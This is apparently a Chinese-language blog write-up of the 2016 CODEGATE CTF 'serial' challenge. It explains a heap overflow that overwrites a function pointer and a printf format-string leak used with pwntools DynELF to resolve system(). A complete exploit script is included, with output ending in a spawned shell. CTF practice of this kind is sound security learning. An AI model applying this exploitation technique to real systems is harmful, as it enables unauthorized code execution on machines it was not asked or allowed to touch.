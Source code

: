 ```yaml
---
title: 2016 CODEGATE CTF serial
date: 2017-05-14 03:41:02
tags:
- fsb
- DynELF
categories:
- ctf_practice
---
```


我忍不住又刷题了....这道题还是值得一做，让我对DynELF有了更深入的理解，更重要的是还学了点angr。

## Challenge
[程序](https://github.com/w0lfzhang/ctfs/blob/master/2016-codegate-ctf/serial)的逻辑很简单，首先用calloc分配10个连续0x20大小的块，然后验证key，这里就需要[angr](http://angr.io/)了，当然也可以手动分析。然后就是一般的玩法了，给个菜单你自己去琢磨怎么搞。漏洞还是很好找。
<!-- more -->
```c
__int64 __fastcall add(__int64 a1)
{
  size_t v1; // rax@3
  char s[8]; // [sp+10h] [bp-30h]@3
  __int64 v4; // [sp+18h] [bp-28h]@3
  __int64 v5; // [sp+20h] [bp-20h]@3
  __int64 v6; // [sp+28h] [bp-18h]@3
  __int64 v7; // [sp+38h] [bp-8h]@1

  v7 = *MK_FP(__FS__, 40LL);
  if ( count <= 9 )
  {
    *(_QWORD *)s = 0LL;
    v4 = 0LL;
    v5 = 0LL;
    v6 = 0LL;
    *(_QWORD *)(32LL * count + a1 + 24) = func;
    printf("insert >> ");
    input(s);
    v1 = strlen(s);
    memcpy((void *)(32LL * count + a1), s, v1);
    ++count;
  }
  else
  {
    puts("full");
  }
  return *MK_FP(__FS__, 40LL) ^ v7;
}
```
问题就是能读入31个字符，能把后面的函数地址给覆盖。然后你调用dump函数时会执行这个函数。
```c
int __fastcall dump(__int64 a1)
{
  int result; // eax@1

  result = *(_BYTE *)a1;
  if ( (_BYTE)result )
  {
    printf("func : %p\n", *(_QWORD *)(a1 + 24));
    result = (*(int (__fastcall **)(__int64))(a1 + 24))(a1);
  }
  return result;
}
```

## Exploit
刚开始思路是把函数地址覆盖为printf@plt的地址，然后就按照printf的读写套路来。可是问题是这题一没libc，二是格式化字符串在堆上...这咋整?

后来google了下，这题可以用DynELF来整？纳尼，好像记得用DynELF还是去年，以后就基本没用过了....而且DynELF一般的话有write和puts函数还好用，想不到还能用printf(其实只是经验少没用过而已)。刚开始看wp的时候没明白，格式化串在堆上啊，咋leak啊?

真是套路满满啊，在输入选项的时候能读入数据而且就在栈上~~
```shell
   0x400a16:	mov    rax,QWORD PTR [rbp-0x8]
   0x400a1a:	mov    rdi,rax
   0x400a1d:	mov    eax,0x0
=> 0x400a22:	call   rdx
   0x400a24:	nop
   0x400a25:	leave  
   0x400a26:	ret    
   0x400a27:	push   rbp
Guessed arguments:
arg[0]: 0x603010 --> 0x61616161 ('aaaa')
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdd60 --> 0x0 
0008| 0x7fffffffdd68 --> 0x603010 --> 0x61616161 ('aaaa')
0016| 0x7fffffffdd70 --> 0x7fffffffddc0 --> 0x0 
0024| 0x7fffffffdd78 --> 0x400fa9 (jmp    0x400fd7)
0032| 0x7fffffffdd80 --> 0x1 
0040| 0x7fffffffdd88 --> 0x603010 --> 0x61616161 ('aaaa')
0048| 0x7fffffffdd90 ("3fuckyou")
0056| 0x7fffffffdd98 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000000000400a22 in ?? ()
```
我们可以输入3fuckyou + p64(addr)，然后确定addr是printf的第几个参数，第13个，很稳。这样在add的时候输入以下数据就行了。
```shell
BB%13$sCC".ljust(24) + p64(printf_plt)
```
接着可以leak system函数的地址，然后add的时候输入：
```shell
'/bin/sh;'.ljust(24) + p64(system)
```
注意/bin/sh后面得跟';'，跟\x00是不行的，会被strlen截断的。

## Script
```python
#!/usr/bin python

from pwn import *

debug = 1
if debug:
    p = process('./serial')
else:
    pass

def add(s):
    p.recvuntil("choice >> ")
    p.sendline('1')
    p.recvuntil("insert >> ")
    p.sendline(s)

def remove(id):
    p.recvuntil("choice >> ")
    p.sendline('2')
    p.recvuntil("choice>> ")
    p.sendline(str(id))

def dump(choice_id):
    p.recvuntil("choice >> ")
    p.sendline(choice_id)

p.recvuntil("input product key: ")
p.sendline('615066814080')

printf_plt = 0x400790

def leak(addr):
    add("BB%13$sCC".ljust(24) + p64(printf_plt))
    dump("3AAAAAAA" + p64(addr))
    
    p.recvuntil("BB")

    data = p.recvuntil("CC")[:-2] + "\x00" #must adding \x00, becuase must leaking at least one byte data, 
    #print len(data)                       #however addr's content may be empty
    remove(0)
    return data

d = DynELF(leak, elf = ELF('./serial'))
system_addr = d.lookup("system", "libc.so")
print "system_addr: " + hex(system_addr)

add('/bin/sh;'.ljust(24) + p64(system_addr)) #attention, adding \x00 not working
#gdb.attach(p)
dump('3')

p.interactive()
```
美滋滋：
```shell
w0lfzhang@w0lfzhang666:~/Desktop/ctfs/code-gate$ python exp.py 
[+] Starting local process './serial': pid 75557
[*] '/home/w0lfzhang/Desktop/ctfs/code-gate/serial'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Loading from '/home/w0lfzhang/Desktop/ctfs/code-gate/serial': 0x7ffff7ffe1c8
[+] Resolving 'system' in 'libc.so': 0x7ffff7ffe1c8
[!] No ELF provided.  Leaking is much faster if you have a copy of the ELF being leaked.
[*] Magic did not match
[*] .gnu.hash/.hash, .strtab and .symtab offsets
[*] Found DT_GNU_HASH at 0x7ffff7dd2c00
[*] Found DT_STRTAB at 0x7ffff7dd2c10
[*] Found DT_SYMTAB at 0x7ffff7dd2c20
[*] .gnu.hash parms
[*] hash chain index
[*] hash chain
system_addr: 0x7ffff7a58590
[*] Switching to interactive mode
hey! (nil)
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> func : 0x7ffff7a58590
$ id
uid=1000(w0lfzhang) gid=1000(w0lfzhang) groups=1000(w0lfzhang),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

